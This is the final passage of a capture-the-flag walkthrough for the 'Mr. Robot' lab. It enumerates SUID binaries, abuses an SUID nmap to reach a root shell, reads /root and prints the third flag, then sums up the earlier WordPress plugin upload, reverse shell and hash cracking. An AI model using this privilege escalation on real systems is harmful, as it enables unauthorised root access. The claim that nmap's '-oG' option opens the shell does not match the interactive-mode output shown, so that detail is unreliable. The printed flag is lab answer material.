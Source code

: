 ```bash
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Indeed, there are quite a few, but we need to focus on which seems the weirdest to have SUID enabled.

The Nmap one should trigger you → Using GTFObins ([GTFObins](https://gtfobins.github.io/)) it seems we can get root privileges using the -oG option ! Let’s try that

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ nmap -oG
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
nmap> ls -la /root
total 44
drwx------  7 root root 4096 Jun  2 18:26 .
drwxr-xr-x 23 root root 4096 Aug  3 13:25 ..
-rw-------  1 root root    0 Jun  2 18:26 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  3 root root 4096 May 29 15:36 .cache
drwx------  3 root root 4096 May 29 15:36 .config
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
drwx------  3 root root 4096 May 29 16:58 .gnupg
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
drwxr-xr-x  3 root root 4096 May 29 17:26 .local
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
drwx------  2 root root 4096 May 29 15:20 .ssh
-rw-------  1 root root    0 Jun  2 18:26 .viminfo
nmap> cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

P-E-R-F-E-C-T ! We now have successfully upgraded our privileges and gained root access to the target machine 🥳

The 3rd key is: `04787ddef27c3dee1ee161b21670b4e4`

Congrats on completing the Mr. Robot room!

## Summary

This room was about exploiting a vulnerable WordPress website via the WordPress login page. Next, we managed to upload a malicious plugin inside the WordPress website. After gaining a reverse shell on the target machine, we retrieved and cracked a user’s MD5 hash using John the Ripper.

Finally, we successfully gained root privileges on the target machine.
